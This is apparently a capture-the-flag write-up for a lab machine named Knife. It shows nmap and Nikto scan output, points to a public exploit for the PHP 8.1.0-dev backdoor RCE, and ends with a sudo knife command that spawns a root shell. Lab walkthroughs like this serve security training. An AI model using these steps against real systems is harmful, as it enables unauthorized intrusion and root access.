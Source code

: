 ======>ENUM

==>NMAP SCAN

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:\ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

==>Nikto Scan

- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.242
+ Target Hostname:    10.10.10.242
+ Target Port:        80
+ Start Time:         2021-07-09 14:49:14 (GMT5.5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.41 (Ubuntu)
+ Retrieved x-powered-by header: PHP/8.1.0-dev
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type


---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

==>EXPLOIT

- From the Nikto Scan Found ==>PHP/8.1.0-dev

- It has a backdoor Remote Code Execution Vuln

https://github.com/flast101/php-8.1.0-dev-backdoor-rce


---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

==>PREV ESC

=> sudo -l

Matching Defaults entries for james on knife:                                                                                                                                                                      
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
    
=> https://docs.chef.io/workstation/knife_exec/
=> To get The root I used the Command:
  sudo knife exec --exec "exec '/bin/sh -i'"
  
  
 

